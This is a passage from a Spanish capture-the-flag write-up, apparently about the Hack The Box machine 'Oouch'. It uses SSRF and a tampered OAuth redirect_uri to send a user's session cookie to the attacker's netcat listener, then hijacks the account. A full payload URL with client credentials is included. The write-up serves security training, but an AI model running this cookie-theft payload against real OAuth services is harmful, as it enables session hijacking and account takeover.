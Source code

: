 ![](https://lh4.googleusercontent.com/y2Z6rbecZWh67o44LMOS20U6Dmw4r63cOmuf30UTEZZWCV5fgeN2q4qt15LlLNs-zXKJdQ29LUIIHWe3dbVAdzyOMVpLoQWXqTH0yBdPjdMhBc-OL0Qp-oqiKe9OcXYeR6SfqKwu)

En este punto no supe qué hacer durante mucho mucho pero mucho tiempo.

Hasta que encontré el siguiente artículo: [oauth-2-simplified](https://aaronparecki.com/oauth-2-simplified/)


Lo que nosotros debemos hacer realizar un petición al servidor por medio de la aplicación, de tal manera que la aplicación genera un token de negociación para que el usuario pueda solicitar su acceso mediante el grant token, así el servidor autoriza el token y emite el token de acceso y el token de actualización, es ahi donde nosotros hacemos una solicitud a x recurso utilizando nuestro token de acceso, si todo sale bien es servidor de recursos valida nuestra solicitud y podemos acceder a cualquier recurso, en este caso intentaremos acceder a `/api/get_user`.

  
Entonces nosotros podemos aprovecharnos de esto y del SSRF para que el usuario qtc haga una solicitud al servidor y que toda la respuesta sea enviada a nuestro netcat utilizando el parámetro `redirect_uri` así nosotros seremos capaces de capturar el cookie de sesión del usuario QTC, Después realizaremos una solicitud al servidor para poder acceder al recurso `/api/get_user`.

  

La url tendrá la siguiente estructura:

- http://authorization.oouch.htb:8000/oauth/authorize/?

- client_id=vuOIcmBtqcxDbQ0Qoq7lLMhfQkCcjDZ9sGIS1PqG

- redirect_uri=http://10.10.14.4/

- grant_type=authorization_code

- client_secret=Yxz2ruIYMDUame0kY4N8Y7XHezb6kQ4sDUZzzwauEjX2Fhjx0X5A8XAztyfrBwk4687gi8lOpVwUEfC6JxW54MObWSz6VOVV0Osmf8hI5RaIPPTlBBv7zDj5OJtApEJL


Payload: `http://authorization.oouch.htb:8000/oauth/authorize/?client_id=vuOIcmBtqcxDbQ0Qoq7lLMhfQkCcjDZ9sGIS1PqG&redirect_uri=http://10.10.14.4/&grant_type=authorization_code&client_secret=Yxz2ruIYMDUame0kY4N8Y7XHezb6kQ4sDUZzzwauEjX2Fhjx0X5A8XAztyfrBwk4687gi8lOpVwUEfC6JxW54MObWSz6VOVV0Osmf8hI5RaIPPTlBBv7zDj5OJtApEJL`  

Nos dirigimos al `/contact`.

![](https://lh3.googleusercontent.com/Sy6aK9MmgQd6bm1X3t2c8vBP4wR5d_Dc4tt1H19RRWH1YL74bTCECKfeOcZqIjgn87XndDZCcvA7Dp6TvRq6CDQfs8jcBGljm2VGI1Fga5Um1TJQUqqWqoBpnL5kmx7Vv-vRSN2Q)

Lo enviamos y esperamos un poco.

![](https://lh6.googleusercontent.com/4ZSePVzvtjwMtkdiGgxGT9TQlH5RDeLubQujtzCE8JOUKIq_KI9rX2u2mgZgSLUPRNhQAKKe_mus8fWC8PvhpefaUsaqDE8y5mb2iCg_eg4WrGyxiyXDPBesWeasDPuJylzBMuZg)

Obtenemos la cookie de session del usuario qtc!!!

Una vez obtenida la cookie sólo la reemplazamos y obtenemos el acceso como el usuario qtc.

![](https://lh3.googleusercontent.com/c7OfmIscvrmveEm-pEfXsfKBJISvXC2uhlhZhwO4jvx0k7iGZ-mu9Nue3u0OEC1Q5JUuNRPbpOX8nbZBXftWOzo19TuyomlSfHEjR5zv_m7hDSxjEH8EoZkYzQABZo8mGU5duQ2m)

  

Ahora que estamos en la cuenta del usuario qtc podemos solicitar el acceso a un recurso.

![](https://lh6.googleusercontent.com/s-q6NE8DBHzS652sxoKQ0TozbAInMCwpWMC2fwJ9uGZvSp2oZyeA8urQAxB6w23yRDtdEjXCTq09la6PiY2j3VtX9UO7-wP22GkgqRpnBB7O-4qawwi2F81tizL3NgY-qLdUERj4)
